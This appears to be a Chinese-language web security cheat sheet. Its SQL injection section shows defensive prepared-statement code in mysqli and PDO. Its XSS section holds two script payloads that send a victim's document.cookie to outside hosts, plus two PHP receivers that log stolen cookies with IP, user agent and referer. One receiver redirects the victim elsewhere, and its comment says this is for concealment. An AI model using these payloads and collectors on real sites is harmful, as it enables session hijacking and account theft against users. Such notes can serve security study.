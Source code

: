 ## SQLI
### 防御
#### 过滤函数
 - `addslashes(str)`
 - `mysql_real_escape_string()`
 - `mysql_escape_string(str)`

#### mysqli
```php
$mysqli = new mysqli("localhost", "root", "123123", "security");
$stmt = $mysqli->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param('d', $_GET['id']);
$stmt->execute();
$res = $stmt->get_result();
$row = $res->fetch_assoc();
var_dump($row);
```

#### pdo
```php
$pdo = new PDO("mysql:host=localhost;dbname=security;",'root','123123');
// $pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES,false);
$pdo->exec('set names utf8');
$sql = "select * from users where id = ?";
$statement = $pdo->prepare($sql);
$statement->bindParam(1, $_GET['id']);
$statement->execute();
$ret = $statement->fetchAll();
var_dump($ret);
```


## XSS

### 发送Cookie
`<script>window.open("http://10.128.2.165:8088/accept_cookie.php?cookie="+document.cookie)</script>`
`<script>document.location="http://www.b.com/1.asp?msg="+document.cookie;</script>`

### 接收Cookie
### 第一种
```php
$cookie = $_GET['cookie'];
$myFile = "cookie.txt";
file_put_contents($myFile, $cookie);
```
### 第二种
```php
$cookie = $_GET['cookie'];            //以GET方式获取cookie变量值
$ip = getenv ('REMOTE_ADDR');        //远程主机IP地址
$time=date('Y-m-d g:i:s');            //以“年-月-日 时：分：秒”的格式显示时间
$referer=getenv ('HTTP_REFERER');    //链接来源
$agent = $_SERVER['HTTP_USER_AGENT'];    //用户浏览器类型
$fp = fopen('cookie.txt', 'a');        //打开cookie.txt，若不存在则创建它
fwrite($fp," IP: " .$ip. "\n Date and Time: " .$time. "\n User Agent:".$agent."\n Referer: ".$referer."\n Cookie: ".$cookie."\n\n\n");    //写入文件
fclose($fp);    //关闭文件
header("Location: http://www.baidu.com");  //将网页重定向到百度，增强隐蔽性
```
### 防御